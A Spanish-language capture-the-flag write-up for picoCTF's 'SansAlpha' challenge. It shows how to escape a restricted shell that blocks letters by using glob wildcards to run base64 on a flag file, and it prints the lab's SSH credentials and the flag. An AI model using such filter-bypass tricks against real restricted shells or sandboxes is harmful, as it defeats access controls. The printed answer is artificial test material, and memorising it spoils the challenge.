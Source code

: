 # Descripción
The Multiverse is within your grasp! Unfortunately, the server that contains the secrets of the multiverse is in a universe where keyboards only have numbers and (most) symbols.`ssh -p 49440 ctf-player@mimas.picoctf.net`Use password: `6dd28e9b`
Hints:
1. Where can you get some letters?
# Solución
- Nos conectamos al servidor usando ssh
- si tratamos de usar algún comando podremos notar que nos muestra un mensaje
```
SansAlpha$ ls
SansAlpha: Unknown character detected
SansAlpha$ cat
SansAlpha: Unknown character detected
SansAlpha$
```
- Entonces la única forma de entrar será usando números y otros símbolos
- Usaremos "* " para ver el directorio en el que nos encontramos
```
SansAlpha$ *
bash: blargh: command not found
```
- También podremos encontrar un archivo "flag.txt"
```
SansAlpha$ */*
bash: blargh/flag.txt: Permission denied
```
- Trataremos de usar base64 para imprimir nuestro archivo
- Para ello usaremos * para directorios y ? para comandos
```
SansAlpha$ /*/???[!_]64 */????.*
cmV0dXJuIDAgcGljb0NURns3aDE1X211MTcxdjNyNTNfMTVfbTRkbjM1NV8xNDUyNTZlY30=
```
- Lo que hacemos en este comando es especificar el archivo que queremos para que no coincida con algún otro. En este caso decimos que está dentro de un directorio con * y / el nombre con ? dependiendo del número de caracteres del nombre del archivo \[!_ ] para especificar que no queremos que contenga " _ " los números los lee igual así que los ponemos exactamente en la posición que van
- Con esto obtendremos el resultado de abrir el archivo con base64
- Esto nos devuelve el resultado en base64, solamente usamos cyberchef para convertir y obtendremos nuestra bandera
```
Input: cmV0dXJuIDAgcGljb0NURns3aDE1X211MTcxdjNyNTNfMTVfbTRkbjM1NV8xNDUyNTZlY30
Receipe: From Base64
Output: return 0 picoCTF{7h15_mu171v3r53_15_m4dn355_145256ec}

picoCTF{7h15_mu171v3r53_15_m4dn355_145256ec}
```
# Notas adicionales
# Referencias